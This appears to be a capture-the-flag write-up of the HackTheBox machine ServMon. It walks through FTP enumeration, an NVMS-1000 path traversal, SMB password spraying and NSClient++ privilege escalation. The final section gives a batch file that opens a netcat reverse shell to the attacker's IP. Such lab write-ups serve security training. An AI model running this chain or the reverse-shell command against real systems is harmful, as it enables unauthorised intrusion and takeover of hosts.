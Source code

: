 ```yaml
---
title: HackTheBox ServMon
author: Marius Kimmina
date: 2020-06-21 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [ftp, Windows, path traversal]
published: true
---
```



## 0x0 Introduction
Yet another Windows box. In this one  we use anonymous ftp access to find out about the existens of some internal files and then abuse a path traversal vulnerability to get hold of these files. Once we are on the box we use an exploit for NSClient++ to escalate privileges to System.
![image](/hacks/htb/ServMon/servmon-pic.png "ServMon")

## 0x1 Getting a foothold and the user.txt

As always I started with a nmap scan (I left out some not all that relevant skript results to keep the output short)

```
$ nmap -sC -sV -oN nmap 10.10.10.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:52 CEST
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open  http
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  nrpe?
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
```
The first things to look at here are the Website, the anonymous login ftp, and maybe smb.
The Website only gave us a login page with not much else to see tho, so lets not waste too much time there.
SMB did not allow anonymous login, which means without credentials we can't do much there either.
FTP does allow anonymous login tho and contained some interesting Information:
```
$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:mindslave): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```
Going into the Nadine and Nathan directory we also got two .txt files the first is in Nadines directory, it's called Confidental.txt

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
```
The second one is in Nathans directory and is called 'Notes to do.txt' (to download this file via ftp u had to use \ for the whitespaces: get Notes\ to\ do.txt)
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

I Found the NSClient that Nathan was talking about on 10.10.10.184:8443, for this I had to go take another look at the nmap result from before:
```
8443/tcp  open  https-alt
```

Upon clicking 'forgot password' on the NSClient application it told me run the following commands, what a goofy application.
```
nscp web -- password --display
nscp web -- password --set new-password testing
```

looking up NSClient in searchsploit brought up a Priveledge escalation so this might be useful for getting the root flag latter on.
That means once we are on the box we can get the password for NSClient++ easily and possibly get root that way, right now that's not very helpful tho, so lets move on.
Next thing that I looked for was anonymous access to the rpcclient but with no success
```
rpcclient -U "" -N 10.10.10.184
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

Now I started looking into this 'napster' thing thats running on the box on port 6699, seems to be some music download service, a very old one tho, there are only 2 public cve's for napster one from 1999 and one from 2000.


Tried to exploit the nrpe (part of nagios) that's running on the box, but no success

```
$ /usr/lib/nagios/plugins/check_nrpe -H 10.10.10.184
CHECK_NRPE: Error - Could not connect to 10.10.10.184. Check system logs on 10.10.10.184
```

So, after all of this failed, I went back to the frontdoor of the box, the nvms-1000 running on port 80. It turns out that this thing has a 'path traversal' vulnerability, and since we know that nathan has a 'Passwords.txt' file on his desktop, that comes in very handy.
I send a request to the application intercepted it with burp and used the repeater to find the 'passwords.txt' file.

![image](/hacks/htb/ServMon/Burp-path-traversal.png "path traversal")

Now I have a few possible passwords:
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

none of these worked on nvms-1000 nor on NSClient++ but trying them out on smb gave me a hit:

```
$ crackmapexec smb 10.10.10.184 -u Nathan -p pw.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE

$ crackmapexec smb 10.10.10.184 -u Nadine -p pw.txt
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
```

```
$ smbmap -u Nadine -p 'L1k3B1gBut7s@W0rk' -H 10.10.10.184
[+] IP: 10.10.10.184:445        Name: 10.10.10.184
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

And it also worked for as Nadines ssh password, which gave us the user.txt
```
nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
23/05/2020  10:23                34 user.txt
```

# 0x02 Getting the root.txt
Now that we are logged in as Nadine we can get the password for the nsclient++ instance that we have discovered before
```
nadine@SERVMON C:\>"Program Files\NSClient++\nscp.exe" web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
Because the page is only accessible from localhost we had to use ssh port forwarding to access the nsclient++ from our maschine.
```
$ ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```


Next, there are 2 things we need to copy over to the ServMon maschine, first a bat file with the following content to execute netcat:

```
@echo off
c:\temp\nc.exe 10.10.14.103 9001 -e cmd.exe
```

And of course the nc.exe itself, to bring both of these over to ServMon I used scp:

```
$ scp boese.bat nadine@10.10.10.184:/temp
$ scp nc.exe nadine@10.10.10.184:/temp
```

Now we configure the NSClient++ to run our boese.bat file, and since NSClient++ has to run with root or system privileges, this will give us a shell as System.

![image](/hacks/htb/ServMon/nsclient-script.png "NSClient++")

Once you have that configured you hit Control -> Reload, wait a second or two and you will have your shell as System

![image](/hacks/htb/ServMon/servmon-system.png "We are system")
